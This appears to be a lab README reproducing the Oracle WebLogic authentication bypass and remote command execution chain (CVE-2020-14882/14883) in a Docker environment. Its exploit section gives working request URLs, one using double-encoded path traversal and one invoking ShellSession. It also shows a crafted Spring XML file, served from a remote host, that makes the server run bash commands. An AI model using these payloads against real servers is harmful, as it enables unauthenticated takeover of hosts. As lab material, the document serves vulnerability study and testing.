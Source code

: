 # Weblogic Unauthentication Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References: 

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit 'http://your-ip:7001/console' to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

At this moment, you don't have permission to upload a webshell:

![](2.png)

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:

![](3.png)

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.
